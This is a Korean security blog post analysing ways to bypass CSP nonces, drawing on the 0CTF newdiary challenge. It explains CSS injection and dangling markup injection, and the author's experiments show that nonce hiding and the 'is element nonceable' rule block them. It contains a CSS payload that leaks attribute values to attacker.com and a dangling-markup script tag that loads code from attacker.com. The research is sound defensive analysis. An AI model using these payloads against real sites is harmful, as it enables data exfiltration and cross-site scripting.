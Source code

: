 +++
date = '2025-08-29T19:59:06+09:00'
draft = false
title = '[Note] CSP Nonce 우회 방법 분석'
summary = "브라우저의 보안 정책에 대해 알아보고, 그 중 CSP의 Nonce를 우회하기 위한 다양한 방법을 시도해보았다."
toc = true
tags = ["Web", "XSS", "CSP", "Nonce"]
+++

---

## 브라우저 보안 정책
브라우저의 보안 정책에는 다양한 종류가 존재한다. 그중 대표적인 것이 SOP, CORS, CSP이다.

우선 `SOP(Same-Origin Policy)`는 웹 보안의 가장 기본적인 원칙이다. 동일한 Origin(프로토콜, 도메인, 포트가 모두 동일)에서만 리소스 접근을 허용함으로써, 악의적인 사이트가 다른 사이트의 민감한 데이터를 훔쳐보는 것을 막는다. 하지만 실제 웹 서비스에서는 외부 스크립트, CDN, API 등 다른 Origin의 리소스를 불가피하게 사용해야 하는 경우가 많다.

이러한 현실적인 요구를 충족하기 위해 등장한 것이 `CORS(Cross-Origin Resource Sharing)`이다. 서버가 Access-Control-Allow-Origin 같은 헤더를 통해 허용 범위를 지정하면, 브라우저는 특정 조건하에서 교차 출처 리소스 요청을 허용한다. 덕분에 API 기반의 웹 서비스 확장성이 가능해졌지만, 동시에 잘못된 설정은 보안 취약점으로 이어질 수 있다.

이후 보다 정교하고 강력한 보안 제어 수단으로 발전한 것이 `CSP(Content Security Policy)`이다. CSP는 단순히 출처를 제한하는 수준을 넘어, 어떤 스크립트가 실행될 수 있는지, 어떤 리소스를 로드할 수 있는지 세밀하게 통제할 수 있는 정책이다. 특히 XSS와 같은 클라이언트 측 공격을 방어하는 핵심 기술이다.

이 외에도 다양한 보안 정책이 존재하지만, CSP와 브라우저 기본 동작을 이용한 XSS 우회 방식을 중심으로 살펴보며, 그 중에서도 Nonce 정책에 대해 분석해볼 것이다.

---

## CSP Nonce

CSP에는 `default-src`, `script-src` 등 여러 지시어가 존재한다. 각 지시어에는 `'self'`, `'nonce-<nonce>'`와 같은 소스 표현식이 설정되며, 이는 화이트리스트 방식으로 지정된 소스만 리소스 접근을 허용한다.  

그중 `nonce-<nonce>`는 `script-src`에서 자주 사용되며, 해당 nonce 값을 가진 `<script>` 태그만 실행되도록 제한할 수 있다. Nonce는 매 요청마다 갱신되는 랜덤 값이므로 공격자가 예측하거나 재사용하기 어렵다.  

---

## CSP Nonce 우회 방법

CSP의 `script-src`에 Nonce가 설정되어 있을 때 이를 우회해 XSS 스크립트를 삽입하는 다양한 CTF 문제가 존재한다.  
주로 활용되는 방식은 다음 세 가지다.

1. **소스리스트 우회**  
   하나의 지시어에 여러 소스 표현식이 동시에 정의되어 있으면, 그중 하나만 충족해도 스크립트 실행이 허용된다.  
   예를 들어 `'self'`와 `'nonce-<nonce>'`가 함께 지정된 경우, 공격자는 nonce를 알지 못해도 `'self'`를 이용해 스크립트를 실행할 수 있다.

2. **고정 Nonce 재사용**  
   Nonce가 매 요청마다 새로 생성되지 않고 고정된 값으로 발급된다면, 공격자는 한 번 확보한 nonce를 계속 재활용할 수 있다.  

3. **Meta 태그 기반 CSP**  
   CSP를 HTTP 응답 헤더가 아닌 `<meta http-equiv="Content-Security-Policy">` 태그로 설정한 경우, 캐싱 정책에 따라 특정 응답이 고정된 상태로 재사용될 수 있다.  
   이때 HTML 문서나 리소스가 캐시되면 공격자는 동일한 nonce 값을 반복적으로 얻어낼 수 있어 보안에 취약해진다.

---

## 의문 제기

보안 강화를 위해 표준 권고대로 **Response Header에서 CSP를 설정하고 매번 새로운 nonce를 발급**한다면, 공격자가 nonce 값을 알아내는 것은 정말 불가능할까? 

관련 정보를 찾아보던 중 [2023-0CTF-newdiary](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary) 하는 매번 갱신되는 Nonce 값을 유출하여 XSS를 성공시키는 CTF 문제를 발견했다. 이 문제의 풀이를 이해하려면 먼저 CSS Injection 기법을 이해할 필요가 있다.  

CSS에서는 **선택자(selector) 문법**을 제공한다.  
- 예: `[attr=value]` 문법은 특정 속성 값이 정확히 일치하는 태그를 선택한다.  
- `^=`, `*=` 연산자를 이용하면 **속성 값의 접두사, 부분 문자열** 여부를 확인할 수 있다.  

이를 이용하면 다음과 같은 공격이 가능하다:  

```css
input[name="secret"][value^="a"] {
  background: url(https://attacker.com/leak?q=a);
}
```

위 코드는 value 값이 "a"로 시작한다면 공격자의 서버로 요청을 보내 속성 값을 한 글자씩 유추할 수 있다. 즉, CSS Injection을 통해 HTML 속성 값 전체를 외부로 누출할 수 있는 것이다.

실제 0CTF-newdiary 문제 풀이에서는 CSS Injection으로 meta 태그에 들어 있는 nonce 속성 값을 유출했고, 이를 조합하여 최종 nonce를 알아낸 뒤 삽입하여 XSS를 성공시켰다.

---

## CSS Injection 시도
나는 같은 방법을 실제 환경에서 시도해 보았다. 그러나 아무리 시도해도 nonce 값을 얻어낼 수 없었다.

문제를 다시 살펴보니 차이가 있었다.

CTF 문제에서는 CSP가 meta 태그로 설정되어 있었기 때문에, meta 태그 속성에 nonce가 노출되었다. 그러나 실제 환경에서는 CSP가 Response Header로 설정되어 있었고, 이 경우 nonce는 `<script>` 태그에만 부여된다.

[MDN Docs](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Global_attributes/nonce#accessing_nonces_and_nonce_hiding)
에 따르면, 보안상의 이유로 nonce 속성은 DOM API나 CSS 선택자에서 접근할 경우 빈 문자열만 반환된다. 이를 “nonce hiding” 정책이라고 한다.

---

## Dangling Markup Injection 시도
CSS Injection이 막혀 있다면 Dangling Markup Injection은 어떨까?

Dangling Markup Injection은 `<tag attr="`처럼 닫히지 않은 속성을 삽입하여, 이후 HTML 문서의 내용을 모두 해당 속성 값에 포함시켜버리는 기법이다. 닫는 `"`나 `>`를 만나기 전까지 문서가 속성 값으로 흡수되기 때문에, 기존의 `script` 요소가 뒤에 위치한다면 태그에 포함시킬 수 있다.

실험 환경에서 실제로 `<script>` 태그와 그 안의 `nonce` 속성을 감싸는 데 성공했다. 이로 인해 nonce hiding 정책을 우회해 CSS Injection으로 감싼 `nonce` 값을 유출할 수 있는 조건을 만들 수 있었다.

여기서 새로운 의문이 생겼다.

>“그렇다면 이렇게 감싸서 흡수한 nonce 값을 실제로 내 스크립트에 붙여서 실행할 수는 없을까?”

### 추가 실험: 감싼 nonce 활용
기존 `<script src="/static/origin.js" nonce="">` 형식의 스크립트 앞에 `<script src="https://attacker.com/static/xss.js" foo="` 라는 페이로드를 삽입해
```html
<script src="https://attacker.com/static/xss.js" foo="<script src=" /static/origin.js" nonce="">
```
위와 같은 형태의 정상적인 nonce값을 가진 script를 생성할 수 있었다. [HTML Standard - 13.2.2 Parse errors](https://html.spec.whatwg.org/multipage/parsing.html#parse-errors)에 따르면, 문법 오류를 발견해도 파싱은 중단되지 않고 대체 처리 규칙이 적용된다.

따라서 이론적으로 삽입된 스크립트가 CSP에 의해 허용되어 실행될 것이라고 예상했다.

그러나 실제로는 스크립트가 실행되지 않았다.

### Is element nonceable?
이후 표준 문서를 찾아보니 [W3C Content Security Policy Level 3 - 6.7.3.1 Is element nonceable](https://www.w3.org/TR/CSP3/#is-element-nonceable)규정이 있었다.  
이 규칙은 비정상적인 구문이나 공격을 통해 삽입된 요소에는 기존 `nonce`가 적용되지 않도록 차단하는 정책으로, 댕글링 마크업을 이용한 `nonce` 재사용 공격을 원천적으로 막는다.

즉, 내가 삽입한 `<script>`는 `nonce` 속성이 있었음에도 불구하고 CSP에 의해 차단된 것이다.

---

## 결론
- **CSS Injection: Response Header** 기반 CSP의 nonce는 nonce hiding 정책으로 인해 유출 불가.

- **Dangling Markup Injection**: `<script>`에 `nonce` 속성을 감싸서 포함시키는 것은 가능했지만, Is element nonceable 규칙에 의해 실행 차단.

따라서 표준 권장대로 Response Header에 설정된 CSP와 매번 갱신되는 nonce가 사용되는 환경에서는 단순히 CSS Injection이나 Dangling Markup Injection만으로 nonce를 유출하거나 재사용할 수 없다.

그러나 만약 Dangling Markup Injection으로 `<script>`와 `nonce` 속성을 감싸는 것이 가능하고, 동시에 CSS Injection을 통해 해당 속성 값을 외부로 유출할 수 있다면, 이 두 기법을 조합하여 CTF 문제에서처럼 CSP Nonce 기반 XSS를 재현하는 것도 이론적으로는 가능하다.

>참고자료  
>[W3C Content Security Policy Level 3](https://www.w3.org/TR/CSP3/)  
>[WHATWG HTML Standard: Parsing](https://html.spec.whatwg.org/multipage/parsing.html)  
>[HSPACE Tech Blog](https://blog.hspace.io/posts/CSS_injection/)  
>[Medium](https://0x0elliot.medium.com/babier-csp-a-great-beginner-xss-challenge-c8b431c03385)  
>[Tistory](https://gayunkim-1.tistory.com/38)  
>[Github](https://github.com/whatwg/html/issues/2369)  
>[Web-platform-tests dashboard](https://wpt.fyi/results/content-security-policy/nonce-hiding/script-nonces-hidden.html?label=master&label=experimental&aligned)